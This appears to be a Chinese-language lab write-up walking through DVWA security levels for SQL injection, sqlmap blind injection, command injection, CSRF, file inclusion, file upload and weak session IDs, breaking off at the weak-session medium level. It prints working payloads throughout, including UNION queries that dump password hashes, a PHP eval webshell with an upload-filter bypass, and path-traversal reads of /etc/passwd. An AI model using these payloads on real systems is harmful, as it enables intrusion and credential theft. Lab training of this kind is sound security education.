


## SQL Injection

就是通过把恶意的sql命令插入web表单递交给服务器，或者输入域名或页面请求的查询字符串递交到服务器，达到欺骗服务器，让服务器执行这些恶意的sql命令，从而让攻击者，可以绕过一些机制，达到直接访问数据库的一种攻击手段。

### SQL注入分类

```
数字型     
字符型    
报错注入   
Boollean注入      
时间注入
```

### SQL注入思路

```
(1).判断是否存在注入，注入是字符型还是数字型

(2).猜解SQL查询语句中的字段数 order by

(3).确定回显位置    union select 

(4).获取当前数据库

(5).获取数据库中的表

(6).获取表中的字段名

(7).得到数据
```

### SQL注入绕过方法

```
(1)注释符号绕过         (2)大小写绕过         (3)内联注释绕过

(4)特殊编码绕过         (5)空格过滤绕过       (6)过滤or and xor not 绕过
```

### 知识点

```sql
version()              数据库版本
database()             数据库名字
user()                 数据库用户
```

> 在mysql中存在一个自带的数据库，`information_schema`，他是一个存储记录所有数据库名，表名，列名的数据库，通过查询他获取指定数据库下面的表名和列名信息

```sql
information_schema.table  记录所有表名信息的表
information_schema.column 记录所有列名信息的表
table_name                表名
columns_name              列名
```


### low级别

**查看源码**


**（1）判断注入类型，**

 

输入1后，结果如下


输入2后，结果如下


输入1'后报错


猜出到是字符型注入，我们继续输入1' and '1' ='1


**（2）判断字段数  order by**

输入1' order by 1# 


输入1' order by 2# 也没有报错


输入1' order by 3#时报错了，说明字段只有2列


**(3)判断回显位置 **

```sql
1' union select 1,2#
```


 可以知道回显位置 在这二个地方

**(4)判断数据库**

```sql
1' union select 1,database()#
```


**(5)获取表名**

```sql
1' union select 1,group_concat(table_name) from  information_schema.tables where table_schema=database()#
```


**(6)获取字段名  **

```sql
1' union select 1,group_concat(column_name) from information_schema.columns where table_name='users'#
```


**(7)获取数据**  

```sql
1' union select user,password from users # 
```


### medium级别

(1)判断注入类型   我们可以看到无法输入数字，所以我们进行抓包在bp中进行SQL注入


输入id=1' and '1'='1看见报错了


输入id=1 and 1=1没有报错


所以注入类型为数字类型


(2)判断列数


所以列数为2列

（3）判断回显位置


回显位置为2

(4)判断数据库


（5）判断表名

```sql
1  union select 1,group_concat(table_name) from  information_schema.tables where table_schema=database()#
```


(6)判断列名

我们输入users之后，发现没有如何反应

通过源代码我们可以知道，发现它对单引号进行了转义，我们采用16进制绕过，得知users的十六进制为 0x75736572


```mysql
1  union select 1,group_concat(column_name) from information_schema.columns where table_schema=0x75736572#
```


 (7)获取数据

```mysql
id=1 union select user,password from users#
```


### high级别

**（1）判断注入类型**


输入1' and '1'=2'


判定是字符型注入

**(2)判断字段数**


1' order by 1#


1' order by 2#


在输入 1' order by 3# 时报错


**（3）判断回显位置**

```mysql
1' union select 1,2#
```


**(4) 获取数据库**

```mysql
1' union select 1,database()#
```


**(5)获取表名**

```sql
1' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()#
```


**(6)获取字段名**

```sql
1' union select 1,group_concat(column_name) from information_schema.columns where table_name='users'#
```


**(7)获取数据**

```sql
1' union select user,password from users#
```


### 报错解决

**sql注入联合查询时返回报错信息 “Illegal mix of collations for operation ‘UNION’ ”**

出现这个问题的原因是因为union字符规则不一致导致


---

解决：

进入数据库管理后台


## SQL Injection(Blind)

sqlmap是一个自动化的SQL注入工具，其主要功能是扫描，发现并利用给定的URL进行SQL注入。目前支持的数据库有MySql、Oracle、Access、PostageSQL、SQL Server、IBM DB2、SQLite、Firebird、Sybase和SAP MaxDB等。

Sqlmap采用了以下5种独特的SQL注入技术

```python
1、基于布尔类型的盲注，即可以根据返回页面判断条件真假的注入
2、基于时间的盲注，即不能根据页面返回的内容判断任何信息，要用条件语句查看时间延迟语句是否已经执行(即页面返回时间是否增加)来判断
3、基于报错注入，即页面会返回错误信息，或者把注入的语句的结果直接返回到页面中
4、联合查询注入，在可以使用Union的情况下注入
5、堆查询注入，可以同时执行多条语句时的注入
```

Sqlmap的强大的功能包括 数据库指纹识别、数据库枚举、数据提取、访问目标文件系统，并在获取完全的操作权限时执行任意命令。

sqlmap是一个跨平台的工具，很好用，是SQL注入方面一个强大的工具！

**基本步骤**

```shell
查看sqlmap相关参数以及用法，命令格式为：sqlmap -h

找到一个可利用的网址，判断网站数据库类型，命令格式为：sqlmap -u

确定数据库类型为mysql后，查看存在的数据库，命令格式为：sqlmap -u 目标网址–dbs

查看数据库中存在的表，命令格式为：sqlmap -u 目标网址–tables -D 数据库名

获取表中的字段，命令格式为：sqlmap -u 目标网址– columns -T 表名 -D 数据库名

猜解出字段，查看表里的存储内容，命令格式为：sqlmap -u 目标网址– dump -C 字段名称 -T 表名 -D 数据库名
```


```shell
sqlmap需要我们输入参数，其中最重要的参数是SQL注入的目标地址。首先要判断测试的目标地址是否需要登录，如果需要登录，则将登陆的Cookie作为参数传递给sqlmap。
    python sqlmap.py -u “目标地址” --cookie=“cookie值” --batch
    
–batch用来指明自动化操作，否则每一个步骤都需要确认；
–current-bd查看当前数据库名称
-D DB 指定要枚举的 DBMS 数据库
-T TBL 指定要枚举的 DBMS 数据表
-C COL 指定要枚举的 DBMS 数据列
-X EXCLUDECOL 指定要排除的 DBMS 数据列
-U USER 指定枚举的 DBMS 用户
```


### LOW级别

浏览器抓包


也可以用bp截取cookie信息


```shell
sqlmap -u "http://192.168.80.145/dvwa/vulnerabilities/sqli_blind?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=8fkivqb2c1oaqmugqcka4mkgma"
```


开始暴库

```shell
sqlmap -u "http://192.168.80.145/dvwa/vulnerabilities/sqli_blind?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=14e25onisogeuh3n3mlfkegd9s"  --dbs --batch
```


暴表名

```shell
sqlmap -u "http://192.168.80.145/dvwa/vulnerabilities/sqli_blind?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=14e25onisogeuh3n3mlfkegd9s" -D 'dvwa'  --tables --batch


# -D 要爆破的数据库名
# --tables 暴表名
```


暴字段

```shell
sqlmap -u "http://192.168.80.145/dvwa/vulnerabilities/sqli_blind?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=8fkivqb2c1oaqmugqcka4mkgma" -D dvwa -T users --columns --batch

# -D 要爆破的数据库名
# -T 要爆破的表名
# --columns 暴字段名
```


获取用户和密码

```shell
sqlmap -u "http://192.168.80.145/dvwa/vulnerabilities/sqli_blind?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=14e25onisogeuh3n3mlfkegd9s" -D 'dvwa' -T 'users' -C 'user,password' --dump 

#  -C   'user,password'   要爆破的字段
# --dump 导出数据库 
```


### Medium级别

bp抓包，发现是post请求携带参数提交的数据，需要使用 --data 参数把数据引入过来


爆破数据库

```shell
sqlmap "http://192.168.80.145/dvwa/vulnerabilities/sqli_blind/#" --cookie "security=medium; PHPSESSID=ejqjhrcjdf2em40du4bru9l96n" --data "id=1&Submit=Submit" --dbs --batch
```


爆破数据库的表

```shell
sqlmap "http://192.168.80.145/dvwa/vulnerabilities/sqli_blind/#" --cookie "security=medium; PHPSESSID=ejqjhrcjdf2em40du4bru9l96n" --data "id=1&Submit=Submit" -D dvwa --tables --batch

```


爆破表的字段

```shell
sqlmap "http://192.168.80.145/dvwa/vulnerabilities/sqli_blind/#" --cookie "security=medium; PHPSESSID=ejqjhrcjdf2em40du4bru9l96n" --data "id=1&Submit=Submit" -D dvwa -T users --columns --batch

```


获取用户和密码

```shell
sqlmap "http://192.168.80.145/dvwa/vulnerabilities/sqli_blind/#" --cookie "security=medium; PHPSESSID=ejqjhrcjdf2em40du4bru9l96n" --data "id=1&Submit=Submit" -D dvwa -T users -C user,password  --dump
```


## Command Injection

Command Injection，即命令注入，是指通过提交恶意构造的参数破坏命令语句结构，从而达到执行恶意命令的目的。PHP命令注入攻击漏洞是PHP应用程序中常见的脚本漏洞之一。

PHP命令注入漏洞的函数` systme()、exec()、shell_exec()`

注入命令过程中，常常需要使用一些系统命令的拼接方式，以达到更多复杂功能的实现，尤其是存在限制的情况，运用好可用来绕过限制。

---

```python
逻辑运算符::

&&：代表首先执行命令a，若成功再执行命令b，又被称为短路运算符。

&：代表首先执行命令a再执行命令b，不管a是否成功，都会执行命令b。在执行效率上来说“&&”更加高效。

||：代表首先执行a命令再执行b命令，只有a命令执行不成功，才会执行b命令。

|：代表首先执行a命令，在执行b命令，不管a命令成功与否，都会去执行b命令。

（当第一条命令失败时，它仍然会执行第二条命令，表示A命令语句的输出，作为B命令语句的输入执行。）
```

### LOW级别

输入127.0.0.1,结果与在本机使用ping命令完全一致，说明这里可以让我们执行ping命令。


**分析源码**

可以看到这里直接将target 变量放入 `shell_exec（）`执行``ping`命令，没有进行任何过滤，用户端可以直接拼接特定的命令，来执行并获取想要的信息。

```php
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $target = $_REQUEST[ 'ip' ];

    // Determine OS and execute the ping command.
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
        // Windows
        $cmd = shell_exec( 'ping  ' . $target );
    }
    else {
        // *nix
        $cmd = shell_exec( 'ping  -c 4 ' . $target );
    }

    // Feedback for the end user
    echo "<pre>{$cmd}</pre>";
}

?>
```

输入一个命令拼接符号再加上需要执行的命令

查看IP地址    `127.0.0.1&&ipconfig`


### Medium级别

输入127.0.0.1，发现跟low等级显示的一样


查看源代码，

```php
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $target = $_REQUEST[ 'ip' ];

    // Set blacklist
    $substitutions = array(
        '&&' => '',
        ';'  => '',
    );

    // Remove any of the characters in the array (blacklist).
    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );

    // Determine OS and execute the ping command.
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
        // Windows
        $cmd = shell_exec( 'ping  ' . $target );
    }
    else {
        // *nix
        $cmd = shell_exec( 'ping  -c 4 ' . $target );
    }

    // Feedback for the end user
    echo "<pre>{$cmd}</pre>";
}

?> 
```

发现在Low等级源码的基础上添加了一个黑名单，把‘&&’字符和‘;’字符过滤掉了，但我们可以使用黑名单之外的命令连接符命令注入

地址栏输入`127.0.0.1&ipconfig`


### High级别

观察源代码

```php
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $target = trim($_REQUEST[ 'ip' ]);

    // Set blacklist
    $substitutions = array(
        '&'  => '',
        ';'  => '',
        '| ' => '',
        '-'  => '',
        '$'  => '',
        '('  => '',
        ')'  => '',
        '`'  => '',
        '||' => '',
    );

    // Remove any of the characters in the array (blacklist).
    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );

    // Determine OS and execute the ping command.
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
        // Windows
        $cmd = shell_exec( 'ping  ' . $target );
    }
    else {
        // *nix
        $cmd = shell_exec( 'ping  -c 4 ' . $target );
    }

    // Feedback for the end user
    echo "<pre>{$cmd}</pre>";
}

?> 
```

发现过滤字符过滤得更多了。但仔细观察发现有一个过滤是’| ‘，这个过滤是加了空格的，说明这个过滤其实是没用的，只需要’|’后面直接加入参数，不保留空格，我们依然可以用这个命令连接符进行命令注入

---

地址栏输入`127.0.0.1|ipconfig`


### Impossible级别

```php
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $target = $_REQUEST[ 'ip' ];
    $target = stripslashes( $target );

    // Split the IP into 4 octects
    $octet = explode( ".", $target );

    // Check IF each octet is an integer
    if( ( is_numeric( $octet[0] ) ) && ( is_numeric( $octet[1] ) ) && ( is_numeric( $octet[2] ) ) && ( is_numeric( $octet[3] ) ) && ( sizeof( $octet ) == 4 ) ) {
        // If all 4 octets are int's put the IP back together.
        $target = $octet[0] . '.' . $octet[1] . '.' . $octet[2] . '.' . $octet[3];

        // Determine OS and execute the ping command.
        if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
            // Windows
            $cmd = shell_exec( 'ping  ' . $target );
        }
        else {
            // *nix
            $cmd = shell_exec( 'ping  -c 4 ' . $target );
        }

        // Feedback for the end user
        echo "<pre>{$cmd}</pre>";
    }
    else {
        // Ops. Let the user name theres a mistake
        echo '<pre>ERROR: You have entered an invalid IP.</pre>';
    }
}

// Generate Anti-CSRF token
generateSessionToken();

?> 
```

加入了Anti-CSRF token，同时对参数ip进行了严格的限制，只有诸如“数字.数字.数字.数字”的输入才会被接收执行，因此不存在命令注入漏洞。这个确实已经结合业务场景来进行约束了。

## CSRF

CSRF，跨站域请求伪造，通常攻击者会伪造一个场景（例如一条链接），来诱使用户点击，用户一旦点击，黑客的攻击目的也就达到了，他可以盗用你的身份，以你的名义发送恶意请求。**CSRF攻击的关键就是利用受害者的cookie向服务器发送伪造请求。**

**和XSS有什么不同？**

CSRF是以用户的权限去做事情，自己本身并没有获取到权限；XSS是直接盗取了用户的权限进行攻击。

### LOW级别

源码分析

```php
<?php

if( isset( $_GET[ 'Change' ] ) ) {
    // Get input
    $pass_new  = $_GET[ 'password_new' ];
    $pass_conf = $_GET[ 'password_conf' ];

    // Do the passwords match?
    if( $pass_new == $pass_conf ) {
        // They do!
        $pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
        $pass_new = md5( $pass_new );

        // Update the database
        $current_user = dvwaCurrentUser();
        $insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . $current_user . "';";
        $result = mysqli_query($GLOBALS["___mysqli_ston"],  $insert ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

        // Feedback for the user
        echo "<pre>Password Changed.</pre>";
    }
    else {
        // Issue with passwords matching
        echo "<pre>Passwords did not match.</pre>";
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

?> 
```

发现只是坐了密码比对，并没有其他认证，只需要输入的新密码和确认的新密码保持一致即可

New password：123456

Confirm new password：123456


将地址栏中的两个密码改成123


同样可以修改成功

修改密码的链接过于明显，可以使用一些缩短链接的方法，这样用户更容易上当。

也可以写一个html简单脚本，把img标签隐藏起来

```html

<h1>
    404
</h1>
<h2>
    file not found!!
</h2>
```

当用户点击访问这个页面时，会以为访问的页面丢失了，但是当他打开这个页面时，用户的密码已经被修改了！

### Medium级别

源码分析

```php
<?php

if( isset( $_GET[ 'Change' ] ) ) {
    // Checks to see where the request came from
    if( stripos( $_SERVER[ 'HTTP_REFERER' ] ,$_SERVER[ 'SERVER_NAME' ]) !== false ) {
        // Get input
        $pass_new  = $_GET[ 'password_new' ];
        $pass_conf = $_GET[ 'password_conf' ];

        // Do the passwords match?
        if( $pass_new == $pass_conf ) {
            // They do!
            $pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
            $pass_new = md5( $pass_new );

            // Update the database
            $current_user = dvwaCurrentUser();
            $insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . $current_user . "';";
            $result = mysqli_query($GLOBALS["___mysqli_ston"],  $insert ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

            // Feedback for the user
            echo "<pre>Password Changed.</pre>";
        }
        else {
            // Issue with passwords matching
            echo "<pre>Passwords did not match.</pre>";
        }
    }
    else {
        // Didn't come from a trusted source
        echo "<pre>That request didn't look correct.</pre>";
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

?> 
```

**stripos()** 函数查找字符串在另一字符串中第一次出现的位置（不区分大小写）代码检查了保留变量HTTP_REFERER （http包头部的Referer字段的值，表示来源地址）是否包含SERVER_NAME（http包头部的 Host 字段表示要访问的主机名）。

```php 
 if( stripos( $_SERVER[ 'HTTP_REFERER' ] ,$_SERVER[ 'SERVER_NAME' ]) !== false )`
这里通过STRIPOS函数对比HTTP_REFERER，SERVER_NAME是否一致
后台的服务器会去检查HTTP_REFERER函数是否包含SERVER_NAME(host参数、主机名等)，用此方法来抵御CSRF攻击
# 方法：
要想通过验证，就必须保证在Http请求中Referer字段中必须包含Host，所以攻击者只需要将文件名改成受害者的Host以及name就可以完美通过验证！
```


---

使用burp suit抓包 发送到Repeater


将Host与Referer修改一致


### High级别

```php
<?php

$change = false;
$request_type = "html";
$return_message = "Request Failed";

if ($_SERVER['REQUEST_METHOD'] == "POST" && array_key_exists ("CONTENT_TYPE", $_SERVER) && $_SERVER['CONTENT_TYPE'] == "application/json") {
    $data = json_decode(file_get_contents('php://input'), true);
    $request_type = "json";
    if (array_key_exists("HTTP_USER_TOKEN", $_SERVER) &&
        array_key_exists("password_new", $data) &&
        array_key_exists("password_conf", $data) &&
        array_key_exists("Change", $data)) {
        $token = $_SERVER['HTTP_USER_TOKEN'];
        $pass_new = $data["password_new"];
        $pass_conf = $data["password_conf"];
        $change = true;
    }
} else {
    if (array_key_exists("user_token", $_REQUEST) &&
        array_key_exists("password_new", $_REQUEST) &&
        array_key_exists("password_conf", $_REQUEST) &&
        array_key_exists("Change", $_REQUEST)) {
        $token = $_REQUEST["user_token"];
        $pass_new = $_REQUEST["password_new"];
        $pass_conf = $_REQUEST["password_conf"];
        $change = true;
    }
}

if ($change) {
    // Check Anti-CSRF token
    checkToken( $token, $_SESSION[ 'session_token' ], 'index.php' );

    // Do the passwords match?
    if( $pass_new == $pass_conf ) {
        // They do!
        $pass_new = mysqli_real_escape_string ($GLOBALS["___mysqli_ston"], $pass_new);
        $pass_new = md5( $pass_new );

        // Update the database
        $current_user = dvwaCurrentUser();
        $insert = "UPDATE `users` SET password = '" . $pass_new . "' WHERE user = '" . $current_user . "';";
        $result = mysqli_query($GLOBALS["___mysqli_ston"],  $insert );

        // Feedback for the user
        $return_message = "Password Changed.";
    }
    else {
        // Issue with passwords matching
        $return_message = "Passwords did not match.";
    }

    mysqli_close($GLOBALS["___mysqli_ston"]);

    if ($request_type == "json") {
        generateSessionToken();
        header ("Content-Type: application/json");
        print json_encode (array("Message" =>$return_message));
        exit;
    } else {
        echo "<pre>" . $return_message . "</pre>";
    }
}

// Generate Anti-CSRF token
generateSessionToken();

?> 
```


---------

---

直接修改cook的安全等级绕过token认证机制

Burp Suite抓包，发送到Repeater


安全等级修改为low


---

## File Inclusion

服务器执行PHP文件时，可以通过文件包含函数加载另一个文件中的PHP代码，并且当PHP来执行，这会为开发者节省大量的时间。这意味着您可以创建供所有网页引用的标准页眉或菜单文件。当页眉需要更新时，您只更新一个包含文件就可以了，或者当您向网站添加一张新页面时，仅仅需要修改一下菜单文件（而不是更新所有网页中的链接）。

---

文件包含漏洞，是指当服务器开启allow_url_include选项时，就可以通过php的某些特性函数 (include()、require()、include_once()、require())利用url去动态包含文件，此时如果 没有对文件来源进行严格审查，就会导致任意文件读取或者任意命令执行。文件包含漏洞分为： 本地文件包含漏洞和远程文件包含漏洞，远程文件包含漏洞是因为php配置中的allow_url_fopen 开启，服务器允许包含一个远程的文件。


---

**文件包含函数**

PHP中文件包含函数有以下四种：require()、require_once()、include()、include_once()

include和require区别主要是：include在包含的过程中如果出现错误，会抛出一个警告，程序继续正常运行；而require函数出现错误的时候，会直接报错并退出程序的执行。
而include_once()，require_once()这两个函数，与前两个的不同之处在于这两个函数只包含一次，适用于在脚本执行期间同一个文件有可能被包括超过一次的情况下，你想确保它只被包括一次以避免函数重定义，变量重新赋值等问题。

**漏洞产生原因**

*文件包含函数加载的参数没有经过过滤或者严格的定义，可以被用户控制，包含其他恶意文件，导致了执行了非预期的代码。*
*服务器包含文件时，不管文件后缀是否是php，都会尝试当作php文件执行，如果文件内容确为php，则会正常执行并返回结果；如果不是，则会原封不动地打印文件内容，所以文件包含漏洞常常会导致任意文件读取与任意命令执行*

---

[文件上传漏洞攻击与防范方法](https://www.freebuf.com/articles/web/371536.html)

[Web安全实战系列：文件包含漏洞](https://www.sohu.com/a/252000335_354899)

### LOW级别

```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

?> 
```

服务器期望用户的操作是点击下面的三个链接，服务器会包含相应的文件，并将结果返回。需要特别说明的是，服务器包含文件时，不管文件后缀是否是php，都会尝试当做php文件执行，如果文件内容确为php，则会正常执行并返回结果，如果不是，则会原封不动地打印文件内容，所以文件包含漏洞常常会导致任意文件读取与任意命令执行。


在页面上点击三个文件名会显示不同内容，


观察URL的变化。发现通过page=点击的文件名来显示相应内容，那么可能存在文件包含漏洞，通过修改URL，让page=指定的文件，来显示攻击者想访问的不在开发者指定访问范围中的内容。

```shell
http://192.168.80.145/dvwa/vulnerabilities/fi/?page=/etc/passwd
```


报错，显示没有这个文件,暴露了服务器文件的绝对路径`C:\phpstudy_pro\WWW\dvwa\`

成功读取了服务器的php.ini文件


### Medium级别

```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
$file = str_replace( array( "http://", "https://" ), "", $file );
$file = str_replace( array( "../", "..\\" ), "", $file );

?> 
```

发现使用str_replace对http://,https:// 替换成空，对于str_replace函数进行的过滤，可以使用双写进行绕过

```
http://192.168.80.145/dvwa/vulnerabilities/fi/?page=hthttp://tp://www.baidu.com
```


## File Upload

文件上传功能是大部分WEB应用的常用功能，网站允许用户自行上传头像、照片、一些服务类网站需要用户上传证明材料的电子档、电商类网站允许用户上传图片展示商品情况等。然而，看似不起眼的文件上传功能如果没有做好安全防护措施，就存在巨大的安全风险。

---

当用户在在文件上传的功能模块处上传文件时，如果WEB应用在文件上传过程中没有对文件的安全性进行有效的校验，攻击者可以通过上传WEBshell等恶意文件对服务器进行攻击，这种情况下认为系统存在文件上传漏洞，根据上传后文件存放位置不同，上传后对文件操作不用，可能会导致不一样的结构，包括完全控制系统，覆盖服务器文件等等。

---

文件上传漏洞与SQL注入或XSS相比,其风险更大。文件上传漏洞的利用分两步，第一需要能上传恶意文件，第二，恶意文件需要被触发，通过服务端自动运行触发或者攻击者配合其他漏洞手动触发。

### LOW级别

```php
<?php

if( isset( $_POST[ 'Upload' ] ) ) {
    // Where are we going to be writing to?
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

    // File information
    $uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
    $uploaded_type = $_FILES[ 'uploaded' ][ 'type' ];
    $uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];

    // Is it an image?
    if( ( $uploaded_type == "image/jpeg" || $uploaded_type == "image/png" ) &&
        ( $uploaded_size < 100000 ) ) {

        // Can we move the file to the upload folder?
        if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) {
            // No
            echo '<pre>Your image was not uploaded.</pre>';
        }
        else {
            // Yes!
            echo "<pre>{$target_path} succesfully uploaded!</pre>";
        }
    }
    else {
        // Invalid file
        echo '<pre>Your image was not uploaded. We can only accept JPEG or PNG images.</pre>';
    }
}

?> 
```

`$target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/"; `表示上传文件路径

` $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );`  表示 文件名= 上传文件的路径+文件名

函数解释：

[basename()函数](https://www.runoob.com/php/func-filesystem-basename.html)

[$_FILES函数](https://www.runoob.com/php/php-file-upload.html)

写一个一句话木马

```php
<?php   @eval($_POST['hello']);  ?>
```


上传成功，给出了上传文件路径，


使用蚁剑连接一句话木马

```
http://192.168.80.145/dvwa/hackable/uploads/1.php
```


蚁剑连接成功





### Medium级别

直接上传1.php，提示上传失败，只能上传文件类型为JPEG和PNG格式的文件


查看源码发现增加了校验


修改1.php后缀为png格式，


打开bp进行抓包查看


发送到Repeater,将后缀再改回php后缀 ，点send，从response中可以看到文件上传成功，并返回了保存路径。


蚁剑连接一句话木马

```
http://192.168.80.145/dvwa/hackable/uploads/1.php
```


### High级别

**substr () 函数：**[点这里](https://www.runoob.com/php/func-string-substr.html)
 **strrpos () 函数：**[点这里](https://www.runoob.com/php/func-string-strrpos.html)
 **strtolower () 函数：**[点这里](https://www.runoob.com/php/func-string-strtolower.html)
 **getimagesize 函数:**[点这里](https://www.runoob.com/php/php-getimagesize.html)


后缀限制只能上传图片，大小10000B，strtolower()函数将无论是大写或小写的后缀名全改为小写，以防大小写绕过，并且getimagesize() 函数用于获取图像大小及相关信息，所以这里再用之前的php文件后缀名改为jpg或png就不可行了，不过也可以利用这个函数的漏洞进行绕过，既然对文件的开头内容进行了检测并且通过二进制识别是否为图像，那么就可以利用文件头欺骗，来让getimagesize()函数检测无效。

这里用GIF的文件头，在一句话木马前加上GIF的文件头标识，后缀改为png格式

```php
GIF89a
<?php phpinfo(); ?> <? phpinfo();?>
```


上传成功


利用文件包含漏洞

```php
http://192.168.80.145/dvwa/vulnerabilities/fi/?page=file://C:\phpstudy_pro\WWW\dvwa\hackable\uploads\demo.png
```


## Weak Session IDs (弱会话)

当用户登录后，在服务器就会创建一个会话(session)，叫做会话控制，接着访问页面的时候就不用登录，只需要携带Sesion去访问。

        sessionID作为特定用户访问站点所需要的唯一内容。如果能够计算或轻易猜到该sessionID，则攻击者将可以轻易获取访问权限，无需录直接进入特定用户界面，进而进行其他操作。
    
        用户访问服务器的时候，在服务器端会创建一个新的会话(Session)，会话中会保存用户的状态和相关信息，用于标识用户。服务器端维护所有在线用户的Session，此时的认证，只需要知道是哪个用户在浏览当前的页面即可。为了告诉服务器应该使用哪一个Session，浏览器需要把当前用户持有的SessionID告知服务器。用户拿到session id就会加密后保存到 cookies 上，之后只要cookies随着http请求发送服务器，服务器就知道你是谁了。SessionID一旦在生命周期内被窃取，就等同于账户失窃。
Session利用的实质 ：

        由于SessionID是用户登录之后才持有的唯一认证凭证，因此黑客不需要再攻击登陆过程(比如密码)，就可以轻易获取访问权限，无需登录密码直接进入特定用户界面， 进而查找其他漏洞如XSS、文件上传等等。

Session劫持 :

        通过窃取用户SessionID，使用该SessionID登录进目标账户的攻击方法，此时攻击者实际上是使用了目标账户的有效Session。如果SessionID是保存在Cookie中的，则这种攻击可以称为Cookie劫持。SessionID还可以保存在URL中，作为一个请求的一个参数，但是这种方式的安全性难以经受考验。
### LOW级别

```php
<?php

$html = "";

if ($_SERVER['REQUEST_METHOD'] == "POST") {
    if (!isset ($_SESSION['last_session_id'])) {
        $_SESSION['last_session_id'] = 0;
    }
    $_SESSION['last_session_id']++;
    $cookie_value = $_SESSION['last_session_id'];
    setcookie("dvwaSession", $cookie_value);
}
?> 
```

`setcookie()` 函数向客户端发送一个 HTTP cookie。如果用户 SESSION 中的 `last_session_id` 不存在就设为 0，生成 cookie 时就在 cookies 上 dvwaSessionId + 1。这种生成方式过分简单了，而且非常容易被伪造。

点击Generate(生成会话)，使用bp进行抓包


在第一次发包中，并没有看到`dvwaSession`值得传递，点击`Forward`放包再次进行抓包


抓取到`cookie`值中`dvwaSession`为`1`，这是第一次，复制`cookie`值和`Web Session IDs`页面的url
 然后打开`firefox`，打开`HackBar`,将url粘贴到地址栏，将复制的`cookie`粘贴到`cookie`值中

可以试着修改dvwaSession的值


点击提交后可以看到，不需要输入密码直接登录成功

### Medium级别

```php
 <?php

$html = "";

